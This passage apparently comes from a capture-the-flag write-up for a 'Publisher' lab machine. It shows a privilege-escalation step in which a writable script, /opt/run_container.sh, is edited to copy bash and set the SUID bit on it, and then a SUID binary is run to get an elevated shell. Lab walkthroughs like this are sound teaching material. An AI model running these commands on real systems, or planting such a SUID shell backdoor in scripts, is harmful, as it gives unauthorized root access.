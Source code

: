 
## ⚡ Exploitation

We found `/opt/run_container.sh` is writable. Let's use it to escalate privileges.

1. **Move to /var/tmp:**
   ```bash
   cd /var/tmp
   cp /bin/bash .
   ```

2. **Edit `/opt/run_container.sh`:**
   ```bash
   #! /bin/bash
   cp /bin/bash /var/tmp/bAsh
   chmod +s /var/tmp/bAsh
   ```
   ![Exploit Code](../images/Publisher_images/exploit_code.png)

3. **Run the SUID binary:**
   ```bash
   /usr/sbin/run_container
   ```
   ![Exploit Run](../images/Publisher_images/exploit.png)
   ![bAsh File](../images/Publisher_images/bAsh_file_get.png)
